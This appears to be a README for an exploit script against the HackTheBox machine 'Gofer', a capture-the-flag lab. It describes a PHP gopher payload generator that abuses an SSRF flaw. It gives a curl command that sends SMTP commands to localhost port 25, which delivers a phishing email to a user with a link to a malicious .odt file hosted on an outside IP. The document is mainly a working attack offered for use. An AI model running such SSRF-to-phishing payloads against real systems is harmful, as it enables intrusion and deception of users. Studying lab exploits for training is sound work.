 ## About:
* **Platform**&nbsp;&nbsp;&nbsp;: HackTheBox
* **Challenge**&nbsp;: Gofer
* **Difficulty**&nbsp;&nbsp;: Hard
* **Link**&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: [https://app.hackthebox.com/machines/554](https://app.hackthebox.com/machines/554)

## Description:
This PHP script is designed to create a `gopher` payload, enabling the exploitation of the SSRF vulnerability found in `/index.php?url=ssrf-here`. It works by sending a phishing email to `jhudson`, containing a link to a malicious `.odt` file.

## Usage:
```bash
php gopher-generator.php
curl -X POST http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/_MAIL+FROM%3A+%3Croot%40gofer.htb%3E%250ARCPT+TO%3A+%3Cjhudson%40gofer.htb%3E%250ADATA%250ASubject%3A+Important+mail%250AClick+on+this+link%3A+http%3A%2F%2F10.10.10.10%2Fphish.odt+for+more+info%250A.
```
